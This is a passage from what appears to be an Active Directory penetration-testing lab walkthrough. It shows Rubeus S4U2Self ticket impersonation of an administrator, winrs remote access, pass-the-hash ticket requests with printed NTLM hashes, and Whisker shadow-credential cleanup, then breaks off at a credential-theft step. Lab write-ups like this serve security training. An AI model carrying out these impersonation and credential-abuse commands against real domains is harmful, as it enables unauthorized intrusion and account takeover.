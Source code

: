 ```powershell
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 76C3848CC2E34EF0A8B5751F7E886B8E
```
- We will now use the generated TGT to execute a S4U2Self attack to impersonate `us\administrator` and request a TGS for the `HTTP` service.
```powershell
PS C:\Auditor> .\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:http/us-helpdesk.us.techcorp.local /dc:us-dc.us.techcorp.local /ptt /nowrap /ticket:doIG...
```
- We can now access the compromised server.
```powershell
PS C:\Auditor> winrs -r:us-helpdesk.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> whoami;hostname
whoami;hostname
us\administrator
US-HelpDesk
```
- After pillaging the compromised server, we can exit, clear our Kerberos tickets from our cache and impersonate `us\mgmtadmin` again in order to clean up the `msDS-KeyCredentialLink` attribute of the target server. In the end we will list the attribute again to make sure we have properly performed our cleanup.
```powershell
PS C:\Auditor> .\Rubeus.exe purge
PS C:\Auditor> .\Rubeus.exe asktgt /user:mgmtadmin /rc4:e53153fc2dc8d4c5a5839e46220717e5 /domain:us.techcorp.local /ptt

<snip>

PS C:\Auditor> .\Whisker.exe clear /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
PS C:\Auditor> .\Whisker.exe list /target:us-helpdesk$ /domain:us.techcorp.local /dc:us-dc.us.techcorp.local
[*] Searching for the target account
[*] Target user found: CN=US-HELPDESK,CN=Computers,DC=us,DC=techcorp,DC=local
[*] Listing deviced for us-helpdesk$:
[*] No entries!
```
# 15. Extracting Credentials and Tokens from `US-HELPDESK`
- Using one of the attacks described at [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/2. Kill Chain#14.3 Account Permissions]], we can now access `US-HELPDESK` with administrative privileges.
```powershell
PS C:\Auditor> winrs -r:us-helpdesk.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator.US> hostname;whoami
hostname;whoami
US-HelpDesk
us\administrator
```
- We can attempt to steal credentials and tokens from the compromised server.
```powershell
```